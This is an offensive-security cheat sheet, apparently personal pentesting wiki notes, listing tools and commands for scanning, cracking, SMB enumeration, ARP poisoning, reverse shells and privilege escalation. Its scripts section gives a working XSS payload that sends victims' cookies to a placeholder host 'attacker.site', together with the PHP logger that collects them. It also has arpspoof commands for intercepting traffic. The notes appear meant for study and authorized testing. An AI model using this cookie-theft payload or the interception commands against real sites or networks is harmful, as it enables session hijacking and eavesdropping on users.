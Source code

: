 # Tools
## connectivity / port scanning
- [[icmp]]
- [[nmap]]
- [[ssl]]
- `sublist3r` **still needs some work**
- `amass` **still needs some work**
-   [PacketWhisper](https://github.com/TryCatchHCF/PacketWhisper)
-   [egress-checking](https://labs.mwrinfosecurity.com/blog/egress-checking)
-   [dnsdumpster.com](http://dnsdumpster.com)

## Web Apps
- `httprint -P0 -h -s` **needs some work**
- [[http_dirs]]

### SQL injection
- [[sql]]
- [mysql cli](https://dev.mysql.com/doc/refman/8.0/en/mysql.html)

### Web shells
- [[web_shells]]

## Bruteforcing and cracking
-   [[john]]
- [[password_lists]]
- [[hask_cat]]
-   `ophcrack`
- [[hydra]]
-   [one-rule-to-rule-them-all/](https://notsosecure.com/one-rule-to-rule-them-all/)
-   [commom passwords](https://wiki.skullsecurity.org/Passwords)

## SMB enumeration
-   relevant ports: 135,139,445
-   [[win_smb_enum]]
- [[linux_smb_enum]]

## ARP poisoning
-   configure routing `echo 1 > /rpoc/sys/net/ipv4/ip_forward`OR `sudo sysctl -w net.ipv4.ip_forward=1`
-   `arpspoof -i <interface> -t <target victim> -r <host victim>` 
-   use wireshark to watch the traffic pass through

## MetaSploit
-   [metasploit](https://www.metasploit.com)
- [[metasploit]]
## shells
- [[netcat]]
- [[socat]]
- [[bash_shells]]
- [[powershell_shells]]
-   [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
-   [payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#golang)
-   [shell upgrading to tty](https://netsec.ws/?p=337)
- `/usr/share/webshells` in kali
- fix row / column size
	- `stty -a` retrieve default settings for terminal
	- replace target settings with these numbers: `stty rows <number>` and `stty cols <number>`

## PrivEsc
- [[linux_privesc]]
- [[windows_privesc]]

### msfvenom
- [[msfvenom]]

# scripts
## XSS
### target
```
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
### attacker
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```
run with: `php -S 0.0.0.0:8090`
# configs for SMB
```
client min protocol = CORE
client max protocol = SMB3 
client use spnego = no 
client ntlmv2 auth = no
```